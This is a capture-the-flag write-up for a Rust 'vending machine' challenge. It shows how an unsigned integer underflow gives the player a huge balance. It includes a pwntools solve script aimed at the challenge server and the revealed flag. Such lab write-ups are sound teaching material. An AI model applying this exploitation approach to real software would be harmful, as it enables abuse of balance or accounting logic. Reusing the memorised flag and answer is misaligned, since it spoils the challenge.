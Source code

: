 # [PWN] Rusty Vending Machine
## Description
Deciding to touch some grass, you took a walk in the forest. In the distance, you notice something interesting: In the dense foliage, there is an old and rusty but working vending machine. You approach it...

Note: the binaries are compiled with cargo build --release --target x86_64-unknown-linux-musl

Author: Taiz2000

nc challs.nusgreyhats.org 35125

## The Program
When we run the program, we are greeted with the following output:

![Program Output](./images/program_output.png)

We are given a balance of 100 coins, and are presented with the following options:
1. Insert Coin (use 1 coin)
2. Insert Notes (buy goods)

After fiddling around with the program for a bit, the following can be observed:
1. We can only insert a coin **once**.
2. We cannot buy goods that costs more than our balance.
3. We get kicked out of the netcat session after a while (this suggests a script is needed).

## Code Analysis
*This was my first time reading Rust code, and it wasn't too bad.*

Looking around the code, I was able to validate that we indeed can only insert a coin once:

```rust
1 => {
    if coin_eaten {
        slow_print("The machine already ate your coin, don't do it again ._.");
    } else {
        slow_print("And.... nothing happens. The machine ate your coin :((");
        balance = balance - 1;
        coin_eaten = true;
    }
}
```

This is simply due to the `coin_eaten` variable being set to `true` after we insert a coin :)

The rest of the code did not yield any interesting information as they were pretty standard stuff - if you have enough balance, "buy" the good and subtract the amount the good costs from your balance.

However, if we look more closely at the types assigned to the variables, we can infer that our balance is of a `u32` type, which is unsigned.

```rust
let mut balance: u32 = 100; // Free money for you at the start :)
```

This means that as long as we somehow achieve a negative balance, the value will wrap around and yield a large positive number instead due to **integer underflow**.

## Solving the Challenge
Remember that we know the following:
1. We cannot purchase goods that we cannot afford.
2. We can insert a coin (-1 coin) **once**.

Therefore, the only way to achieve our goal of attaining a negative balance is to use up our entire balance of 100, before inserting a (non-existent) coin to subtract 1 from our balance of 0 to get (supposedly), -1. All that is left is to do some basic maths:

"We are given a starting balance of 100 coins. A Potted Plant costs 13 coins while a Mystery Pizza costs 11 coins. What quantity of each item do we need to purchase in order to fully use up our balance?"

The answer will be: `6 Potted Plants and 2 Mystery Pizzas`. Did you get it? ( ͡° ͜ʖ ͡°)

Here is the solution if you did not manage to obtain the answer:

![Math Question](./images/math_question.png)

Now, remember that we cannot maintain the netcat connection for too long as we will get kicked. So all that is left is to make a simple script using `pwntools`:

```python
from pwn import *

def solve():
    conn = remote('challs.nusgreyhats.org', 35125)
    
    conn.recvuntil(b'(0) Leave')
    
    # Buy 6 Potted Plants (13 coins x 6 = 78 coins)
    for _ in range(6):
        conn.sendline(b'2')
        conn.sendline(b'1')
        conn.recvuntil(b'(0) Leave')
    
    # Buy 2 Mystery Pizzas (11 coins x 2 = 22 coins)
    for _ in range(2):
        conn.sendline(b'2')
        conn.sendline(b'2')
        conn.recvuntil(b'(0) Leave')
    
    # Achieve negative balance (integer underflow)
    conn.sendline(b'1')
    conn.recvuntil(b'(0) Leave')
    
    # Buy the flag
    conn.sendline(b'2')
    conn.sendline(b'3')
    
    flag = conn.recvall().decode()
    print(flag)
    conn.close()

if __name__ == '__main__':
    solve()
```

Run the script and we will get the flag.

![Flag](./images/flag_revealed.png)

**Flag:** `grey{bUt_h3y_a_f1aG_1s_4_Fl4g!}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Greyhats%20Welcome%20CTF%202025/Rusty%20Vending%20Machine/solve.py)